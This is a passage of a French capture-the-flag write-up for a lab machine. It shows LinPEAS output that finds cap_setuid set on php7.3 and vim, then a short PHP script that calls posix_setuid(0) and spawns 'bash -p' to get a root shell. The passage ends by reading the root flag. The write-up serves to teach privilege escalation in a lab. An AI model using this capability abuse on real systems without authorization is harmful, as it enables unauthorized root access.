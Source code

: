 A voir les interfaces il semble que l'on touche finalement au but !  

On trouve aussi un second flag :  

```plain
peterg@hotelww:~$ cat Flag2.txt 
6ebccebc6644299d554b7854bc22d297eb0d2335
```

*LinPEAS* trouve un exploit potentiel (*[CVE-2019-13272] PTRACE\_TRACEME*) mais ce qui saute surtout aux yeux ce sont les capabilities données aux binaires *php* et *Vim* :  

```plain
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Current capabilities:
Current: =
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities (limited to 50):
/usr/bin/php7.3 = cap_setuid+ep
/usr/bin/vim = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```

Ecrire un script PHP qui donne un shell ne suffira pas : on n'est pas sur un cas de binaire setuid qui change l'UID effectif. Il faut donc appeler explicitement setuid pour obtenir ce shell :  

```php
<?php
posix_setuid(0);
system("bash -p");
?>
```

Ca fonctionne :  

```plain
peterg@hotelww:~$ /usr/bin/php7.3 test.php 
root@hotelww:~# id
uid=0(root) gid=1000(peterg) groups=1000(peterg)
root@hotelww:~# cd /root/
root@hotelww:/root# ls
Flag3.txt
root@hotelww:/root# cat Flag3.txt 
c6d2ff8d486ef58f2aa8f16b4658884897230620
```
